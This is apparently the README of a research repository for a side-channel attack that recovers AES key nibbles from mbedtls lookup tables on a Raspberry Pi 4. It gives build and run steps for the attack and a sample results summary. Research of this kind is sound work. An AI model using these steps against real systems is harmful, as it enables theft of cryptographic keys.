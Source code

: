 # AES Attack

## Compiler

As we use some clang-specific features, we recommend to compile all code with clang.
To do this, run the following command before building any code from this repository:

    export CC=clang
    export CXX=clang++

## `lib/mbedtls`

This folder contains mbedtls 3.3.0 (from https://github.com/Mbed-TLS/mbedtls/tree/8c89224991adff88d53cd380f42a2baa36f91454).

The only change we did to the original code is that we fix the alignment of the AES lookup tables in memory. Otherwise, the compiler would choose the alignment arbitrarily, making the experiment harder to reproduce in its current stage. This change is documented in the commit history of this repository (commit 5bceb03dfc6b6344911a64bc74e9e383ebc21976).

Compile mbedtls like this:

    cd lib/mbedtls
    DEBUG=1 SHARED=1 make no_test

As a result, a shared library file `libmbedcrypto.so.13` is produced in the `library/` subfolder.

## `program`

This folder contains the actual attack code.

### Build Instructions

First, we need to generate some code based on the mbedtls library binary. In particular, we place load instructions at locations in the attacker code where they collide with relevant load instructions in the victim code. We provide a python script that analyzes the mbedtls binary and generates the aligned code automatically:

    cd program
    objdump -d ../lib/mbedtls/library/libmbedcrypto.so | python3 ./generate_aligned_code.py > src/aligned_code.hh

Finally, build the attack:
    
    cmake -B build .
    make -C build

### Run the attack

In our experiments, we compiled and executed this attack on the Raspberry Pi 4, running Raspberry Pi OS 11.

First, you need to make sure that the cycle counter is accessible from user space, for example using https://github.com/jerinjacobk/armv8_pmu_cycle_counter_el0.

We recommend to run the attack in tmux:

    tmux
    build/attacker_automated > out.log

Detatch with `C-b d`, re-attach with `tmux at`.

When the attack is finished, find the results summary at the very end of `out.log`. A good result looks like this:

```
================
 Final Summary: 
================
=== LUT 0 ===
Key byte hypothesis  0: 1101____ (d0), correct: de (E_)
Key byte hypothesis  4: 1111____ (f0), correct: f0 (EE)
Key byte hypothesis  8: 0110____ (60), correct: 62 (E_)
Key byte hypothesis 12: 1001____ (90), correct: 92 (E_)
=== LUT 1 ===
Key byte hypothesis  5: 0001____ (10), correct: 1c (E_)
Key byte hypothesis  9: 0100____ (40), correct: 4d (E_)
Key byte hypothesis 13: 1010____ (a0), correct: ad (E_)
Key byte hypothesis  1: 0011____ (30), correct: 3d (E_)
=== LUT 2 ===
Key byte hypothesis 10: 1010____ (a0), correct: af (E_)
Key byte hypothesis 14: 1001____ (90), correct: 91 (E_)
Key byte hypothesis  2: 0101____ (50), correct: 5a (E_)
Key byte hypothesis  6: 0111____ (70), correct: 76 (E_)
=== LUT 3 ===
Key byte hypothesis 15: 1110____ (e0), correct: ef (E_)
Key byte hypothesis  3: 1111____ (f0), correct: f2 (E_)
Key byte hypothesis  7: 0101____ (50), correct: 58 (E_)
Key byte hypothesis 11: 1000____ (80), correct: 8f (E_)

```

Each "E" in the last column marks a correctly recovered nibble.